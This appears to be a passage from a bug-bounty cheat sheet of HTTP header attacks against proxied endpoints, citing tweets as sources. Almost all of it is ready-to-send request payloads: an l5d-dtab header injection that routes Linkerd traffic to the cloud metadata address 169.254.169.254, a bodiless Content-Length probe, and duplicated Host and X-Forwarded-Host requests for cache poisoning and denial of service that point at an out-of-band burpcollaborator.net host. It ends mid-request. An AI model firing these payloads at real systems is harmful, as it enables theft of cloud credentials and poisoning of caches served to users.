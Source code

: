 ### Invalid Content-Type Header

```http
Content-Type: */*
```

{% embed url="https://twitter.com/xsaadahmedx/status/1145052664046206976" %}

### Inject l5d-dtab Header

* If There Is Linkerd Service Try To `Inject l5d-dtab` Header `e.g. l5d-dtab: /$/inet/169.254.169.254/80` To Get **`AWS metadata`**

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
l5d-dtab: /$/inet/169.254.169.254/80
Content-Length: Number
Origin: https://www.company.com
parameter=value
```

{% embed url="https://twitter.com/nirvana_msu/status/1084144955034165248" %}

### Content-Length Header With Number And There Is Not Body Content To Expose Internal Information

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Content-Type: application/json
Content-Length: Number
Origin: https://www.company.com
```

### Cache Poisoning and DOS

```http
GET /Endpoint-To-Proxy HTTP/1.1
Host: company.com
User-Agent: Mozilla/5.0
 Host: RandomString(10).id.burpcollaborator.net
 --------------------------
GET /Endpoint-To-Proxy HTTP/1.1
User-Agent: Mozilla/5.0
 Host: RandomString(10).id.burpcollaborator.net
Host: company.com
----------------------------
GET /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
X-Forwarded-Host: RandomString(10).id.burpcollaborator.net
--------------------------------
GET /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
X-Forwarded-Host: www.company.com:PORT
--------------------------------------------
GET /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
X-Forwarded-Host: www.company.com
X-Forwarded-Host: RandomString(10).id.burpcollaborator.net
-----------------------------------------
GET /Endpoint-To-Proxy HTTP/1.1
```